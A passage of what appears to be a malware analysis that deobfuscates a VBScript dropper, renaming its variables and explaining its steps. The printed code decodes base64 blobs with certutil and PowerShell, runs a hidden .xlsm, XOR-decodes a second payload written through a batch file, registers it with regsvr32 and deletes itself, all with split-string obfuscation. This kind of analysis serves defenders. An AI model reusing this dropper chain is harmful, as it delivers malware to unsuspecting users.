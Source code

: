 Renaming these variables according to their usage and I'm also changing the script name as Korean language is not being rendered. The part becomes something like this 
```
	base_1 = "aGVsbG8gd29ybGQ="
	base_2 = "aGVsbG8gd29ybGQgMg=="
	scipt_name = "malicious_v2.0_beta.xlsm"
	drop_file_name = "wg5Du.iWJ446"
	script_name_b64 = scipt_name & ".b64" ' malicious_v2.0_beta.xlsm.b64
	drop_file = drop_file_name & ".b64" ' wg5Du.iWJ446.b64
	drop_file_bat = drop_file_name & ".bat" ' wg5Du.iWJ446.bat

```
Next up we have some path settting up for the files mentioned above 
```
	n4ECXs = scipt_name
	pylR8I = programdata_dir & script_name_b64
	lNiqUnR56 = programdata_dir & drop_file_name
	hMNAklJmh = programdata_dir & drop_file
	lQ2oc8w = programdata_dir & drop_file_bat
	
```

```
	script_name_2 = scipt_name ' malicious_v2.0_beta.xlsm
	script_path_b64 = programdata_dir & script_name_b64 ' C:\ProgramData\malicious_v2.0_beta.xlsm.b64
	drop_file_path = programdata_dir & drop_file_name ' C:\ProgramData\wg5Du.iWJ446
	drop_file_b64 = programdata_dir & drop_file ' C:\ProgramData\wg5Du.iWJ446.b64
	drop_file_bat_path = programdata_dir & drop_file_bat ' C:\ProgramData\wg5Du.iWJ446.bat
```
So now that we've a fair understanding of where the files are going to saved and what their names are going to be, we can proceed further to main functionality.
```
	Set iajdFe3 = fileSystem.CreateTextFile(script_path_b64, True)
	iajdFe3.Write(base_1)
	iajdFe3.Close()


	programShell.Run "pow"&"ersh"&"ell cert"&"util -decode " & script_path_b64 & " " & script_name_2, 0, True
	programShell.Run "cm"&"d /c de"&"l /q /f " & script_path_b64, 0, True
	programShell.Run "c"&"md /c st"&"art " & script_name_2, 0, True


	Set aFoZLFM = fileSystem.CreateTextFile(drop_file_b64, True)
	aFoZLFM.Write(base_2)
	aFoZLFM.Close()


	Set nMJNsm = fileSystem.CreateTextFile(drop_file_bat_path, True)
	nMJNsm.Write("c"&"m"&"d /c"&" po"&"w"&"er"&"s"&"he"&"ll $b6"&"4t"&"ex"&"t "&"= [S"&"y"&"s"&"te"&"m.I"&"O.Fi"&"le]::Rea"&"dAl"&"lTe"&"xt(\""" & drop_file_b64 & "\""); $by"&"tes ="&" [Sys"&"tem."&"Co"&"nv"&"ert]::Fr"&"omBa"&"se"&"64"&"St"&"ri"&"ng($b64"&"te"&"xt);f"&"or($i"&"=0; "&"$i "&"-lt $"&"by"&"tes.co"&"unt ; $i"&"++){$by"&"tes"&"[$"&"i] "&"= $by"&"te"&"s["&"$i] -bx"&"or \""" & xor_key & "\"";}; [Sy"&"st"&"em.I"&"O.Fi"&"le]::W"&"ri"&"teA"&"ll"&"By"&"tes(\""" & drop_file_path & "\"", $by"&"tes) & reg""sv""r32 /s /i:13"&"579A"&"SDFG " & drop_file_path & "")
	nMJNsm.Close()


	programShell.Run "cm"&"d /"&"c "&drop_file_bat_path, 0, True
	selfDel
	 asdfasdf= "again very large base 64 encoded thing"
```

